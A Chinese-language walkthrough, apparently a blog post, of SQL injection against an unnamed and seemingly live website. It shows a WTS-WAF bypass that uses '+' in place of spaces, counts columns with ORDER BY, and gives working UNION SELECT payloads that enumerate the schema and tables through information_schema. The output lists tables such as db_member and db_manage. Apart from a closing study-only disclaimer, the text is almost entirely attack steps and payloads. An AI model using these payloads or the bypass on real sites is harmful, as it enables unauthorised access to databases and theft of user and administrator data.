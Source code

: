 # 寻找漏洞点

网站前台页面如下：

![截图](fdeec884afad126b17a87e3f0957f81b.png)

`.php?id=6`可能是注入点

## 进行测试

发现存在报错，可能存在sql注入

![截图](4a72f7a959c6fc9a2c7e3547b4f62d96.png)

输入`/?id=1and 1=1`，被waf拦截

![截图](33443d464c314c94110b47935ecd00ee.png)

## 绕过waf

发现是WTS-WAF，可以google或者手工尝试绕过的方法。我这里采用的是+号代替空格进行测试，竟然使用+号代替空格真能绕过，那么就可以继续向下测试了。

![截图](7920fbf83ee94942a2f8cdc4303a92a4.png)

## 确定字段数目

通过order by 确定字段数目，查询的字段数为1

输入1没有报错：

![截图](7ccaf06679da6ea838666fa5bb0f8fbb.png)

输入2页面报错了：

![截图](616e5d9e6146d6f1e1641f9cb8c7b2ae.png)

## 查询数据库：

使用limit命令查看数据库，发现只有一个数据库。

```
id=-1+union+select+schema_name+from+information_schema.schemata+limit+1,1--+
```

![截图](2064bbaa7e8b1da21789f741c6bac4fc.png)

## 读取数据库数据

读取数据库中的表

```
id=-6+union+select+table_name+from+information_schema.tables+where+table_schema=0x73616e79696e67+limit+0,1--+
```

![截图](dce1ea927239446fe110a7209666c8d2.png)

```
id=-6+union+select+table_name+from+information_schema.tables+where+table_schema=0x73616e79696e67+limit+1,1--+
id=-6+union+select+table_name+from+information_schema.tables+where+table_schema=0x73616e79696e67+limit+2,2--+
```

数据库表:

```
db_down 0x64625f646f776e20
db_field 0x64625f6669656c64
db_files 0x64625f66696c6573
db_index_images 0x64625f696e6465785f696d61676573
db_jobs 0x64625f6a6f6273
db_manage 0x64625f6d616e616765
db_member 0x64625f6d656d626572
db_menu 0x64625f6d656e75
db_message 0x64625f6d657373616765
db_my_ads 0x64625f6d795f616473
db_my_links 0x64625f6d795f6c696e6b73
db_news 0x64625f6e657773
db_products 0x64625f70726f6475637473
db_record 0x64625f7265636f7264
db_reservation 0x64625f7265736572766174696f6e
db_singlepage 0x64625f73696e676c6570616765
db_web_class 0x64625f7765625f636c617373
```

# 免责声明

本文章仅供学习和参考。因用于其他用途而产生不良后果,作者不承担任何法律责任。